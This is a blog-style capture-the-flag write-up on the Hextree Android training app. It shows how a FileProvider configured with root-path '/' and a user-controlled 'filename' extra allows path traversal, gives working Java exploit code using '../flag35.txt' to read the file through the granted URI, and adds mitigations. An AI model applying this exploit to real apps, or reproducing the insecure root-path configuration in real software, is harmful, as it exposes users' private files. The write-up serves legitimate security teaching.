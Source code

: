 ```yaml
---
layout: post
title: Insecure root-path FileProvider Config Leading to Path Traversal Vulnerability
date: 2025-03-14 22:34 +0200
Categories: Mobile
tags: Android Mobile
---
```

Hello, hackers! In this article, I will explain how an insecure `root-path` FileProvider configuration can lead to a path traversal vulnerability, allowing an attacker to access unauthorized files.

Let’s dive into this exciting vulnerability!
## 1. Analyzing the AndroidManifest.xml File
While analyzing the `AndroidManifest.xml` file, I found an interesting `FileProvider` configuration:
![](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*oUNgkgACiD_BJw49hgkVsQ.png)

With this meta-data code:
```xml
<?xml version="1.0" encoding="utf-8"?>
<paths>
    <root-path
        name="root_files"
        path="/"/>
</paths>
```
This configuration means that the `FileProvider⁣` allows access to any file in the entire filesystem using `getUriForFile()`.
## 2. Identifying the Vulnerable Activity
Next, I found an activity that uses this `FileProvider`. Let’s analyze the code:
```java
 @Override 
    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        String stringExtra = getIntent().getStringExtra("filename");
        if (stringExtra != null) {
            prepareFlag(this, stringExtra);
            Uri uriForFile = FileProvider.getUriForFile(this, "io.hextree.root", new File(getFilesDir(), stringExtra));
            Intent intent = new Intent();
            intent.setData(uriForFile);
            intent.addFlags(3);
            setResult(0, intent);
            return;
        }
        Uri uriForFile2 = FileProvider.getUriForFile(this, "io.hextree.root", new File(getFilesDir(), "secret.txt"));
        Intent intent2 = new Intent();
        intent2.setData(uriForFile2);
        intent2.addFlags(3);
        setResult(-1, intent2);
    }

    void prepareFlag(Context context, String str) {
        if (str.contains("flag35.txt") && new File(getFilesDir(), str).exists()) {
            LogHelper logHelper = new LogHelper(context);
            logHelper.addTag("flag35");
            logHelper.addTag("root-provider");
            Utils.writeFile2(this, "flag35.txt", logHelper.appendLog(FLAG));
        }
    }
```
### Key Findings
1. The `FileProvider` allows handling arbitrary paths.
2. The `addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION | Intent.FLAG_GRANT_WRITE_URI_PERMISSION);` grants read/write access.
3. The `filename` parameter is user-controlled, making it vulnerable to path traversal.

## 3. Exploiting the Vulnerability
### Step 1: Inspect Incoming Intent Data
To analyze the incoming intent data, I wrote the following code:
```java
 @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Intent intent = new Intent();
        intent.setClassName("io.hextree.attacksurface",
                "io.hextree.attacksurface.activities.Flag35Activity");
        startActivityForResult(intent, 42);

    }

    @Override
    protected void onActivityResult(int requestCode, int resultCode, @Nullable Intent data) {
        Utils.showDialog(this, data);
        super.onActivityResult(requestCode, resultCode, data);

    }
```
![](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*5Q52TllzxfQReL0q4iEN9g.png)

The displayed data indicates that the activity accesses a default file path ended by `secert.txt`. Can we manipulate this to retrieve `flag35.txt`?

### Step 2: Exploiting Path Traversal
Since the `filename` parameter is user-controlled, I attempted to inject `"./flag35.txt"`:
```java
intent.putExtra("filename", "./flag35.txt");
```
and I get this Data URI:
![](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*knmnSxx9X11R_c20tmIB1A.png)

so now I used ../ to traverse directories for get one rime back:
```java
intent.putExtra("filename", "../flag35.txt");
```
### Step 3: Final Exploitation Code
The final exploit reads the contents of `flag35.txt`:
```java
@Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Intent intent = new Intent();
        intent.putExtra("filename", "../flag35.txt");
        intent.setClassName("io.hextree.attacksurface",
                "io.hextree.attacksurface.activities.Flag35Activity");
        startActivityForResult(intent, 42);

    }

    @Override
    protected void onActivityResult(int requestCode, int resultCode, @Nullable Intent data) {
        Log.i("Data", "Uri: "+data.getData());
        try {
            InputStream inputStream = getContentResolver().openInputStream(data.getData());
            BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));
            String line;
            while ((line = reader.readLine()) != null){
                Log.d("Kero", " [*] "+line);
            }
        }catch (IOException e) {}
        Utils.showDialog(this, data);
        super.onActivityResult(requestCode, resultCode, data);

    }
```
### Step 4: Retrieving the Flag
The flag is now visible in `logcat` :
![](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*DwzICIvTYJUDFG80ZPmnaA.png)

## Mitigation
To prevent this vulnerability:
- Avoid using `root-path` in `FileProvider`. Instead, define strict subdirectories.
- Sanitize and validate user input.
- Apply strict permissions to prevent unauthorized access.

## Conclusion
This write-up demonstrated how an insecure `root-path` FileProvider configuration can lead to a path traversal vulnerability, allowing an attacker to access arbitrary files. By understanding and mitigating such misconfigurations, we can build more secure Android applications.

**THANKS FOR READING ❤️**


